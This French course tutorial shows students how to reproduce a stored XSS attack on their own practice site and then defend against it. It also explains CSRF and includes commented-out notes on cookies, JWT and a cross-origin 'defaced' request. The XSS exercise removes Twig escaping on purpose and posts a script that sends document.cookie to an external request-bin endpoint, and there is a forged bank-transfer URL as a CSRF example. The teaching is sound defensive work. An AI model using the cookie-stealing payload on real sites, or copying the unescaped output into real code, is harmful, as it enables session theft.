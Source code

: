 ```yaml
---
title: Seance SAÉ &ndash; Failles de sécurité
subtitle: XSS, CSRF
layout: tutorial
lang: fr
---
```


## Bonus pour la SAÉ : Sécurité 

Si vous manquez de temps, appliquez juste la sécurisation des exercices 16 & 17
sans essayer de reproduire les attaques.

### Faille `XSS`

Découvrons 
[la faille de sécurité *Cross Site Scripting* (`XSS`)](https://developer.mozilla.org/fr/docs/Glossary/Cross-site_scripting) sur un exemple.

<div class="exercise">

1. Rendez votre site vulnérable en désactivant l'échappement `htmlspecialchars`.
   Pour ceci, modifiez le code suivant dans `feed.html.twig` : 
   
   ```diff
   - <p>{{ publication.message }}</p>
   + <p>{{ publication.message | raw }}</p>
   ```

   Remarquez par la même occasion que l'utilisation d'un framework professionnel
   protège souvent contre ce genre de vulnérabilité.

1. Rechargez la page. Elle doit afficher un pop-up message si vous avez toujours
   le message original `<script>alert("message")</script>`. Sinon, postez un tel
   message pour voir le pop-up s'afficher.

1. Donc un utilisateur malveillant peut poster un *feed* vérolé, ce qui lui
   permettra d'exécuter du code JavaScript chez tous les visiteurs de *The Feed*. Comme JavaScript a accès aux cookies par défaut, ça devient dangereux.

   [**Créez** un panier à requête public](https://requestbin.com/r) 
   (*request bin* en anglais) pour collecter toutes les requêtes faites à une URL. 
   Enregistrez bien l'URL (*endpoint*) donné et gardez cette page ouverte.

1. Postez le message suivant en remplaçant par votre *endpoint* : 

   ```html
   <script>
      fetch('https://ent4gomyidhlf.x.pipedream.net',{
      body: JSON.stringify(document.cookie),
      method: "POST"
      });
   </script>
   ```

   **Rechargez** la page pour qu'il soit affiché par Twig (et non créé par
   JavaScript). Ce *feed* envoie votre identifiant de session au panier de requête.

1. Il ne reste plus qu'à collecter la requête sur la page Web associée à votre
   *endpoint*. Cliquez sur votre requête qui est apparue à gauche, puis retrouvez votre l'identifiant de session `PHPSESSID` dans les informations sur la requête (corps de requête = *Body*).  

</div>

La première solution a ce problème est donc de bien échapper votre *HTML*. Nous
pouvons aller plus loin en rendant les cookies non accessibles depuis JavaScript. C'est le rôle de [l'attribut `HttpOnly` d'un cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies).

<div class="exercise">

1. Pour protéger notre cookie `auth_token`, activons l'attribut `HttpOnly` à
   tous nos cookies. Dans la classe `Cookie`, changez la méthode `enregistrer()` : 
   
   ```php
   public static function enregistrer(string $cle, mixed $valeur, ?int $dureeExpiration = null): void
   {
      $valeurJSON = serialize($valeur);
      $options = [
         "httponly" => true,
      ];
      if ($dureeExpiration === null)
         $options["expires"] = 0;
      else
         $options["expires"] = time() + $dureeExpiration;
      setcookie($cle, $valeurJSON, $options);
   }
   ```
   
1. Pour protéger notre identifiant de session `PHPSESSID` qui est stocké dans un
   cookie, nous devons utiliser un mécanisme similaire. Dans `Session`, changez le constructeur : 

   ```php
   private function __construct()
   {
      $options = [
         "cookie_httponly" => "1",
      ];
      // session_set_cookie_params($dureeExpiration);
      if (session_start($options) === false) {
         throw new Exception("La session n'a pas réussi à démarrer.");
      }
   }
   ```

1. Supprimez les cookies sur votre site Web en utilisant les outils de
   développement. Reconnectez-vous.  
   **Vérifiez** dans les outils de développement
   que les deux cookies ont l'attribut `HttpOnly` activé.  
   **Exécutez** le code JavaScript suivant dans la console pour vérifier que les
   cookies ne sont plus accessibles : 
   ```js
   document.cookie
   ```

1. Testez que votre site Web marche toujours bien, en particulier les
   fonctionnalités *JavaScript*. Bizarre, non ? C'est le sujet de la prochaine
   section.

2. Vous pouvez remettre `{{ publication.message }}` dans `feed.html.twig`.

</div>

### Faille de sécurité `CSRF`

Comment se fait-il que les fonctionnalités *JavaScript* fonctionnent toujours ?
*JavaScript* envoie des requêtes qui ont besoin d'une authentification via le
cookie `auth_token` pour fonctionner. 

C'est normal que cela marche bien, car même si *JavaScript* n'a plus accès aux
cookies, le navigateur les rajoute aux requêtes faites par `fetch()`.

Ce comportement est malheureusement la base de la faille de sécurité *Cross-Site
Request Forgery* (`CSRF`). Exposons les grandes idées de la faille : 
* dans un navigateur, vous êtes connectés au site de votre banque `https://mabanque.fr`.
  L'authentification se fait par un cookie.
* Dans un autre onglet de votre navigateur, vous allez sur un site malveillant.
  Ce site se sert de JavaScript pour lancer la requête suivante 
  ```
  https://mabanque.fr?action=virement&montant=1000000&beneficiaire=DrEvil 
  ```
* Comme le navigateur rajoute les cookies aux requêtes, votre banque croit que
  l'action vient de vous et transfère l'argent.

Heureusement, les navigateurs modernes ont des défenses contre ce genre
d'attaque. L'idée de base est qu'il ne faut pas rajouter un cookie aux requêtes
si la requête provient d'un domaine différent. Dans l'exemple précédent, le
navigateur n'intégrerait pas les cookies du domaine `mabanque.fr` puisque la
requête provient d'un autre site. Pour votre culture information, cette
problématique a donné lieu à un protocole pour définir la politique de partage
des ressources entre origines multiples : le [*Cross-origin resource sharing*
(CORS)](https://developer.mozilla.org/fr/docs/Web/HTTP/CORS).

Dans le cadre de ce TD, nous allons juste indiquer à nos cookies de n'être rajoutés que lorsque les requêtes viennent du même site.

<div class="exercise">

1. Dans la classe `Cookie`, changez la méthode `enregistrer()` : 
   
   ```diff
     $options = [
        "httponly" => true,
   +    "samesite" => "Strict",
     ];
   ```
   
1. Pour protéger notre identifiant de session `PHPSESSID` qui est stocké dans un
   cookie, nous devons utiliser un mécanisme similaire. Dans `Session`, changez le constructeur : 

   ```diff
     $options = [
        "cookie_httponly" => "1",
   +    "cookie_samesite" => "Strict",
     ];
   ```

</div>

<!-- 
Charger la bonne bibliothèque : 
    <link rel="stylesheet" href="https://unpkg.com/leaflet@1.9.3/dist/leaflet.css"
     integrity="sha256-kLaT2GOSpHechhsozzB+flnD+zUyjE2LlfWPgU04xyI="
     crossorigin=""/>
    <script src="https://unpkg.com/leaflet@1.9.3/dist/leaflet.js"
     integrity="sha256-WBkoXOwTeyKclOHuWtc+i2uENFpDZ9YPdf5Hf+D7ewM="
     crossorigin=""></script>
 -->

<!-- #### (Bonus) Exemple pratique

Difficile à mettre en place car il faut désactiver beaucoup de sécurités

Requête à faire depuis la console dans le site `https://www.google.com` (exemple)

```js
fetch(
   'http://localhost/~lebreton/ComplementWeb2223/TD3_tentative/web/api/feeds',
   {
      mode: 'cors',
      method: 'POST',
      body: JSON.stringify({message : "Owned ! Defaced !"}),
      credentials: 'include'
   }
);
```

`RouteurURL`
```php
$route = new Route("/api/feeds", [
   "_controller" => ['publication_controleur_api', "afficherListe"],
]);
$route->setMethods(["GET", "OPTIONS"]);
```

et plus loin dans `RouteurURL`

```php
$reponse->headers->add([
   'Access-Control-Allow-Origin' => 'https://www.google.com',
   'Access-Control-Allow-Credentials' => 'true'
]);
```
   
`Cookie` pour `auth_token` : 
```php
$options = [
   "httponly" => true,
   "samesite" => "None",
   "secure" => true
];
``` 
-->

<!-- 
TODO : Essayer l'attaque où {{message | raw}} et 
fetch(
   'http://localhost/~lebreton/ComplementWeb2223/TD3_tentative/web/api/feeds/api/feeds',
   {
      method: 'POST',
      body: JSON.stringify({message : "Owned ! Defaced !"}),
   }
);

Solution : CSRF token !

-->


<!-- 

JWT dans les cookies pour que le JS ne puisse pas le lire : 
* Utilisez des cookies HttpOnly et Secure : Lorsque vous utilisez des cookies pour stocker des JWT, veillez à activer les drapeaux HttpOnly et Secure. L'indicateur HttpOnly empêche les scripts côté client d'accéder au cookie et l'indicateur Secure garantit que le cookie n'est envoyé que sur des connexions HTTPS.

  En gros, un utilisateur malicieux qui exécuterait du JS dans votre site (via injection HTML), pourrais lire les cookies autrement avec document.cookie

* On peut quand même lancer des requêtes qui envoient le cookie
  avec fetch par exemple 
* rajouter SameSite=strict pour ne pas pouvoir qu'un utilisateur malicieux envoie une requête sur un autre site (honeypot ? voir N. Aragon https://www.root-me.org/fr/Challenges/ )
  https://stackoverflow.com/questions/61062419/where-and-how-save-token-jwt-best-practice
* stocker juste idUtilisateur signé côté client, et le reste côté serveur (pourquoi ?)
  https://dev.to/rdegges/please-stop-using-local-storage-1i04

-->

<!-- 
cookie_samesite
type: string or null default: 'lax'

Elle contrôle la manière dont les cookies sont envoyés lorsque la requête HTTP ne provient pas du même domaine que celui associé aux cookies. Il est recommandé de définir cette option pour atténuer les attaques de sécurité CSRF.

Par défaut, les navigateurs envoient tous les cookies liés au domaine de la requête HTTP. Cela peut poser problème, par exemple, lorsque vous visitez un forum et qu'un commentaire malveillant contient un lien tel que https://some-bank.com/?send_money_to=attacker&amount=1000. Si vous étiez précédemment connecté au site web de votre banque, le navigateur enverra tous ces cookies lors de cette requête HTTP.

Les valeurs possibles pour cette option sont les suivantes :

null, utilisez-la pour désactiver cette protection. Même comportement que dans les anciennes versions de Symfony.
none" (ou la constante Symfony\Component\HttpFoundation\Cookie::SAMESITE_NONE), utilisez-la pour autoriser l'envoi de cookies lorsque la requête HTTP provient d'un domaine différent (auparavant, c'était le comportement par défaut de null, mais dans les navigateurs plus récents, "lax" serait appliqué lorsque l'en-tête n'a pas été défini).
'strict' (ou la constante Cookie::SAMESITE_STRICT), à utiliser pour ne jamais envoyer de cookie lorsque la requête HTTP ne provient pas du même domaine.
'lax' (ou la constante Cookie::SAMESITE_LAX), l'utiliser pour autoriser l'envoi de cookies lorsque la requête provient d'un domaine différent, mais uniquement lorsque l'utilisateur a consciemment fait la demande (en cliquant sur un lien ou en soumettant un formulaire avec la méthode GET).

cookie_secure
type: boolean or 'auto' default: 'auto'

Cette valeur détermine si les cookies doivent être envoyés uniquement via des connexions sécurisées. Outre true et false, il existe une valeur spéciale "auto" qui signifie true pour les requêtes HTTPS et false pour les requêtes HTTP.

cookie_httponly
type: boolean default: true

Cette option détermine si les cookies doivent être accessibles uniquement via le protocole HTTP. Cela signifie que le cookie ne sera pas accessible par les langages de script, tels que JavaScript. Ce paramètre peut contribuer efficacement à réduire l'usurpation d'identité par le biais d'attaques XSS.
https://symfony.com/doc/current/reference/configuration/framework.html#session

-->

<!-- https://github.com/dwyl/learn-json-web-tokens#q-if-i-put-the-jwt-in-the-url-or-header-is-it-secure -->

<!-- JWT Handbook -->